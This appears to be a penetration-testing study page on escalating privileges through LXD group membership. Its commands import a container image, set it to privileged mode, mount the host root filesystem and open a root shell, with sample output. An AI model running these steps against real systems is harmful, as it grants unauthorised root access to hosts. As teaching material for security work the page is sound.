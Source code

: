 ```yaml
---
icon: linux
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# LXD

## Containers

Containerisation operates at the OS level - in contrast to virtual machines, which operate at the hardware level - and thus share an OS but isolate application processes from the rest of the system.

## Linux Containers

Linux Containers (LXC) is an operating system-level virtualisation technique that allows multiple Linux systems to run in isolation of one-another on a single host by allowing them to manage their own processes but sharing the host system kernel.

### Linux Daemon

Linux Daemon (LXD) is similar in some respects but is designed to contain a complete operating system. Thus it is not an application container but a system container. Before we can use this service to escalate our privileges, we must be in either the `lxc` or `lxd` group.

{% code title="Command" %}
```bash
id
```
{% endcode %}

{% code title="Example Output" %}
```bash
uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```
{% endcode %}

There are several ways in which we can exploit `LXC`/`LXD`. We can either create our own container and transfer it to the target system or use an existing container.

Unfortunately, administrators often use templates that have little to no security. This attitude has the consequence that we already have tools that we can use against the system ourselves.

```shell-session
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz
```

Such templates often do not have passwords, especially if they are uncomplicated test environments. These should be quickly accessible and uncomplicated to use. The focus on security would complicate the whole initiation, make it more difficult and thus slow it down considerably. If we are a little lucky and there is such a container on the system, it can be exploited. For this, we need to import this container as an image.

```shell-session
container-user@nix02:~$ lxc image import ubuntu-template.tar.xz --alias ubuntutemp
container-user@nix02:~$ lxc image list

+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
|                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
| ubuntu/18.04 (v1.1.2)               | 623c9f0bde47 | no    | Ubuntu bionic amd64 (20221024_11:49)     | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
```

After verifying that this image has been successfully imported, we can initiate the image and configure it by specifying the `security.privileged` flag and the root path for the container. This flag disables all isolation features that allow us to act on the host.

```shell-session
container-user@nix02:~$ lxc init ubuntutemp privesc -c security.privileged=true
container-user@nix02:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Once we have done that, we can start the container and log into it. In the container, we can then go to the path we specified to access the `resource` of the host system as `root`.

```shell-session
container-user@nix02:~$ lxc start privesc
container-user@nix02:~$ lxc exec privesc /bin/bash
root@nix02:~# ls -l /mnt/root

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
drwxr-xr-x  13 root root  4096 Apr 23  2020 var
```

